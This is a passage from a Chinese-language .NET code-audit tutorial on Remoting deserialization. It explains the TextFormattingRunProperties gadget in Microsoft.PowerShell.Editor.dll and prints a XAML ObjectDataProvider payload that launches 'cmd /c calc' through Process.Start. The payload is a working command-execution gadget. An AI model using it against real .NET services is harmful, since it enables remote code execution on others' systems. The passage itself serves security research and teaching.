 VulnerableDotNetHTTPRemoting项目中用到就是第三种攻击方法，由于.NET Remoting客户端在攻击中用途不大，故笔者不做赘述。



## 0x04 打造Poc

国外研究者发现Microsoft.VisualStudio.Text.UI.Wpf.dll 中的Microsoft.VisualStudio.Text.Formatting.**TextFormattingRunProperties**类实现了ISerializable接口，这个接口可以对序列化/反序列化的数据进行完全的控制，并且还避免了反射机制， 但有个问题Microsoft.VisualStudio.Text.UI.Wpf.dll需要安装VisualStudio ，在非开发主机上不会安装，但研究者后来发现Microsoft.VisualStudio.Text.Formatting.**TextFormattingRunProperties**类在Windows默认安装的Microsoft.PowerShell.Editor.dll里也同样存在，反编译得到源码，

[![](https://p4.ssl.qhimg.com/t01a54a6daaa8ed0e43.png)](https://p4.ssl.qhimg.com/t01a54a6daaa8ed0e43.png)

实现了ISerializable接口，ISerializable只有一个方法，即 **GetObjectData**，如果一个对象的类型实现了ISerializable接口，会构造出新的**System.Runtime.Serialization.SerializationInfo**对象，这个对象包含了要为对象序列化的值的集合。

[![](https://p5.ssl.qhimg.com/t01cd3a22490161dc57.png)](https://p5.ssl.qhimg.com/t01cd3a22490161dc57.png)

GetObjectData方法的功能是调用SerializationInfo类型提供的SetType方法设置类型转换器，使用提供的AddValue多个重载方法来指定要序列化的信息，针对要添加的添加的每个数据，都要调用一次AddValue，GetObjectData添加好所有必要的序列化信息后会返回到类型解析器，类型解析器获取已经添加到SerializationInfo对象的所有值，并把他们都序列化到流中，代码逻辑实现部分参考如下

[![](https://p2.ssl.qhimg.com/t01e204172f02e63eac.png)](https://p2.ssl.qhimg.com/t01e204172f02e63eac.png)

TextFormattingRunProperties类中的**ForegroundBrush**属性支持XAML数据，攻击者可以引入**《.NET高级代码审计（第一课） XmlSerializer反序列化漏洞》**同样的攻击载荷，如下

```
&lt;ResourceDictionary

  xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"

  xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"

  xmlns:System="clr-namespace:System;assembly=mscorlib"

  xmlns:Diag="clr-namespace:System.Diagnostics;assembly=system"&gt;

        &lt;ObjectDataProvider x:Key="LaunchCalc" ObjectType = "`{` x:Type Diag:Process`}`" MethodName = "Start" &gt;

     &lt;ObjectDataProvider.MethodParameters&gt;

        &lt;System:String&gt;cmd&lt;/System:String&gt;

        &lt;System:String&gt;/c "calc" &lt;/System:String&gt;

     &lt;/ObjectDataProvider.MethodParameters&gt;

    &lt;/ObjectDataProvider&gt;

&lt;/ResourceDictionary&gt;
```
